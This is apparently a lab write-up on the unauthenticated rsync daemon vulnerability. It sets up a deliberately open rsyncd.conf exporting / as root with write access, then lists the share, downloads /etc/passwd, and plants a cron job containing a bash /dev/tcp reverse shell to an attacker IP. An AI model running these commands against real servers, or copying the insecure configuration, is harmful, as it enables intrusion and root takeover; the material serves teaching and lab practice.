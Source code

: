 # Unauthorized Access Vulnerability in Rsync

## Vulnerability Description

Rsync is a data backup tool in Linux that supports remote file transfer through the Rsync protocol and SSH protocol. It is often used for code distribution and synchronization updates within the intranet, so the user group is mostly developers. The Rsync protocol listens to port 873 by default, and in the case of developers with weak security awareness, if the target has enabled the Rsync service and has not configured ACL or access passwords, we can read and write files on the target server.

## Environment Setup

rsyncd.conf

```
uid = root
gid = root
use chroot = no
max connections = 4
syslog facility = local5
pid file = /var/run/rsyncd.pid
log file = /var/log/rsyncd.log

[src]
path = /
comment = src path
read only = no
```

Start rsync

```
rsync --no-detach --daemon --config /etc/rsyncd.conf
```



## Vulnerability Exploitation

After the environment is started, we access it using the rsync command:

```
[root@localhost tmp]# rsync rsync://192.168.32.183:873/
src            	src path

```

View `src` directory

```
[root@localhost tmp]# rsync rsync://192.168.32.183:873/
src            	src path
You have new mail in /var/spool/mail/root
[root@localhost tmp]# rsync rsync://192.168.32.183:873/src
drwxr-xr-x             28 2022/07/26 03:45:11 .
-rwxr-xr-x              0 2022/07/26 03:45:11 .dockerenv
-rwxr-xr-x            101 2022/05/19 09:45:03 docker-entrypoint.sh
drwxr-xr-x              6 2018/01/21 13:42:04 bin
drwxr-xr-x              6 2017/07/13 09:01:05 boot
drwxr-xr-x              6 2022/07/26 03:45:11 data
drwxr-xr-x            340 2022/07/26 03:45:11 dev
drwxr-xr-x             66 2022/07/26 03:45:11 etc
drwxr-xr-x              6 2017/07/13 09:01:05 home
drwxr-xr-x             21 2018/01/21 13:42:05 lib
drwxr-xr-x             34 2017/10/08 20:00:00 lib64
drwxr-xr-x              6 2017/10/08 20:00:00 media
drwxr-xr-x              6 2017/10/08 20:00:00 mnt
drwxr-xr-x              6 2017/10/08 20:00:00 opt
dr-xr-xr-x              0 2022/07/26 03:45:11 proc
drwx------             37 2017/10/08 20:00:00 root
drwxr-xr-x             80 2022/07/26 03:48:12 run
drwxr-xr-x          4,096 2017/10/08 20:00:00 sbin
drwxr-xr-x              6 2017/10/08 20:00:00 srv
dr-xr-xr-x              0 2022/07/25 22:41:55 sys
drwxrwxrwt              6 2022/07/26 03:44:41 tmp
drwxr-xr-x             42 2017/10/08 20:00:00 usr
drwxr-xr-x             17 2017/10/08 20:00:00 var

```

This is a Linux root directory, and we can download any file:

```
[root@localhost tmp]# rsync -av rsync://192.168.32.183:873/src/etc/passwd ./
receiving incremental file list
passwd

sent 43 bytes  received 1,283 bytes  2,652.00 bytes/sec
total size is 1,197  speedup is 0.90

```

Or write to a schedule:

```
echo '* * * * * bash -i >& /dev/tcp/192.168.32.130/9999 0>&1' >> shell
```

```
[root@localhost tmp]# rsync -av shell  rsync://192.168.32.183:873/src/etc/cron.d/root
sending incremental file list
shell

sent 146 bytes  received 35 bytes  362.00 bytes/sec
total size is 55  speedup is 0.30
```

![image-20230130132934397](../../.gitbook/assets/image-20230130132934397.png)